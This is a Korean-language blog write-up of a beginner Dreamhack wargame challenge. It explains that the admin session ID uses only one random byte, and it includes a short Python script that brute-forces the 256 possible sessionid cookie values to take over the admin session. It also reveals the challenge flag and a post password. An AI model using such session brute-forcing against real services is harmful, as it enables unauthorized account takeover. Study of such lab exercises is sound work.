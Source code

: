 ```yaml
---
title: "🔒 (B) session"
date: 2025-08-08 00:00:00 +0900
categories: [Dreamhack, Wargame]
tags: [dreamhack, wargame, beginner, session, brute force, python]
published: true
password: "ahdkeyrkt12#"
abstract: "해당글은 비밀글 입니다."
message: "비밀번호를 입력하세요."
---
```


## Dreamhack / Wargame

---

#### Difficulty Level : Beginner  
#### Title : session

---

![session1](/assets/img/dreamhack/2025-08-08-14-42-56.png)

우선 문제 vm을 생성하고 접속해봤다.

![session2](/assets/img/dreamhack/2025-08-08-14-43-39.png)

로그인 화면이 보인다.

개발자 도구를 열어보니,

![session3](/assets/img/dreamhack/2025-08-08-14-44-21.png)

기본 계정은 `guest / guest` 라고 한다.

이걸 입력해서 로그인을 해보니 다음과 같이 나왔다.

![session4](/assets/img/dreamhack/2025-08-08-14-44-59.png)

> Hello guest, you are not admin

개발자 도구에서 쿠키도 확인해보니

![session5](/assets/img/dreamhack/2025-08-08-15-10-21.png)

`sessionid` 라는 이름으로 쿠키를 관리하고 있는 것을 볼 수 있었다.

<br>

이후에도 분석을 해봤지만 얻을 수 있는 정보는 없었다.

다음으로 문제에서 제공한 소스 코드를 읽어 봤다.

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, make_response, redirect, url_for

app = Flask(__name__)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

users = {
    'guest': 'guest',
    'user': 'user1234',
    'admin': FLAG
}

session_storage = {
}

@app.route('/')
def index():
    session_id = request.cookies.get('sessionid', None)
    try:
        username = session_storage[session_id]
    except KeyError:
        return render_template('index.html')

    return render_template('index.html', text=f'Hello {username}, {"flag is " + FLAG if username == "admin" else "you are not admin"}')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    elif request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        try:
            pw = users[username]
        except:
            return '<script>alert("not found user");history.go(-1);</script>'
        if pw == password:
            resp = make_response(redirect(url_for('index')) )
            session_id = os.urandom(4).hex()
            session_storage[session_id] = username
            resp.set_cookie('sessionid', session_id)
            return resp 
        return '<script>alert("wrong password");history.go(-1);</script>'

if __name__ == '__main__':
    import os
    session_storage[os.urandom(1).hex()] = 'admin'
    print(session_storage)
    app.run(host='0.0.0.0', port=8000)
```

<br>

여기서 눈여겨 봐야할 부분은 바로 맨 마지막 코드 부분이다.

```python
if __name__ == '__main__':
    import os
    session_storage[os.urandom(1).hex()] = 'admin'
    print(session_storage)
    app.run(host='0.0.0.0', port=8000)
```

`session_storage[key] = 'value'`
- session_storage는 딕셔너리 형태이다. (서버 메모리 세션 DB)
    - key : Session ID
    - value : username

`os.urandom(1)`
- 운영체제 레벨의 암호학적 난수 바이트를 1바이트(8비트) 뽑음
    - 뽑힐 수 있는 값(16진수로 각각 4비트씩 차지) : 00 ~ FF => **256가지**

`hex()`
- 바이트 열을 16진수 문자열로 변환. 
    - ex. b"\x07" -> "07"

`login` 라우트 부분에서 세션 쿠키를 설정할 때 **4바이트 난수**를 사용하지만,  
여기서는 admin 세션 생성에 **1바이트**을 사용하는 것을 볼 수 있다.

정리하면,
서버가 시작될 때 무작위 2자리 16진수 문자열을 session ID로 하여 관리자 계정 세션을 미리 등록한다.
따라서 클라이언트가 이 값을 알아내면, sessionid 쿠키 값을 해당 문자열로 바꾸는 것만으로 admin 권한을 획득할 수 있을 것이다.

<br>

키 공간(경우의 수)는 256개 뿐이기에 Brute Force를 통해 충분히 탈취해볼만 하다.

sessionid 값을 00~ff 까지 바꿔가며 요청을 보내보고,  
"flag is" 라는 값이 나오면 화면에 출력되도록 스크립트를 작성해보자.
("flag is"라는 포멧은 '/' 라우트에서 확인할 수 있었음)

<br>

### 작성한 소스코드 (Python)

(pip 를 이용해 requests 모듈을 미리 설치해주어야 함)

```python
import requests

url = "http://host8.dreamhack.games:20075/"
for i in range(256):
    sessionid = f"{i:02x}"
    r = requests.get(url, cookies={"sessionid": sessionid})
    if "flag is" in r.text:
        print("admin sessionid:", sessionid)
        print(r.text)
        break
```
(bruteForce.py)

실행하면?

`python3 bruteForce.py`

![session6](/assets/img/dreamhack/2025-08-08-15-39-07.png)

admin으로 로그인되면서 플래그를 얻을 수 있게 된다.

<br>

flag : ~~DH{73b3a0ebf47fd6f68ce623853c1d4f138ad91712}~~



